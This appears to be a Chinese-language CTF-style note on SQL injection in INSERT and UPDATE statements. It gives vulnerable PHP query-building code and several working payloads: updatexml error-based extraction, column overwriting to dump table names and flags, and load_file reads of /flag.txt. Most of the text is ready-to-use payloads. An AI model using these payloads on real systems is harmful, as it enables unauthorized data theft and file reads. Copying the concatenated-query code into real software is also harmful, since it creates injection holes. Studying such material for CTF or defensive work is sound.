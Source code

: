 这里代表一定的非select注入。
<https://www.cnblogs.com/babers/articles/7252401.html>
## **insert注入**
**1、如果存在报错回显，使用报错**
```
如：
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
已知'单引号闭合
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
2、**插入记录回显
注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";
```
```
dpt_name=3&dpt_address=3&dpt_build_year=2024-12-11&dpt_has_cert=on&dpt_cert_number=3',sds_telephone=database()#

dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
dpt_name=1',sds_address=(select flag from sds_fl9g)#
```

^
## **update的注入**
```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

如果在代码中可知
update语句中，在update后面有注入，
即old_address=$row['address']
```
1、修改前面字段值
```
可以通过注入修改此时的前面字段的值，如address字段
',`address`=database()#

',`address`=(select(load_file("/flag.txt")))#
```
2、where报错注入
```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```